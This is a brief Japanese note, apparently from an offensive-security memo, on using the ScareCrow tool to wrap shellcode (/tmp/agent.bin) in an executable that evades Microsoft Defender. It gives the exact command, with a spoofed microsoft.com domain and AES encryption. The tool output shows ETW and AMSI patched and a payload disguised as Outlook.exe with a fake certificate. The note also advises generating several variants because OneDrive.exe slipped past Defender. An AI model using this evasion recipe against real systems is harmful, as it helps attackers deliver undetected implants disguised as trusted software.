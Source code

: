 シェルコードに対して偽物の署名をしたり、暗号化したりして静的解析の回避に使う
実行ファイルを出力する際にOutlook, Excel, cmdといったマイクロソフト製アプリのプロパティを参考にしているようで、バリエーションがある。
なのでOneDrive.exeは捕まらなかったのに、Outlook.exeは捕まったみたいなことが起こるのでいろいろ出力すると良い
現状Defender回避したファイル: OneDrive.exe...
```sh
cd /opt/ScareCrow

sudo ./ScareCrow -I /tmp/agent.bin -domain www.microsoft.com -encryptionmode AES

#   _________                           _________                       
#  /   _____/ ____ _____ _______   ____ \_   ___ \_______  ______  _  __
#  \_____  \_/ ___\\__  \\_  __ \_/ __ \/    \  \/\_  __ \/  _ \ \/ \/ /
#  /        \  \___ / __ \|  | \/\  ___/\     \____|  | \(  <_> )     / 
# /_______  /\___  >____  /__|    \___  >\______  /|__|   \____/ \/\_/  
# 	\/     \/     \/            \/        \/                      
#							(@Tyl0us)
#	“Fear, you must understand is more than a mere obstacle. 
#	Fear is a TEACHER. the first one you ever had.”
#	
# [+] Shellcode Encrypted
# [+] Patched ETW Enabled
# [+] Patched AMSI Enabled
# [+] Sleep Timer set for 2542 milliseconds 
# [*] Creating an Embedded Resource File
# [+] Created Embedded Resource File With Outlook's Properties
# [*] Compiling Payload
# [+] Payload Compiled
# [*] Signing Outlook.exe With a Fake Cert
# [+] Signed File Created
# [+] Binary Compiled
#[!] Sha256 hash of Outlook.exe: 549f5152e885a1e2cb352271da2cfdbdac1f5b9e9aad86871cbb2062402d15b4


```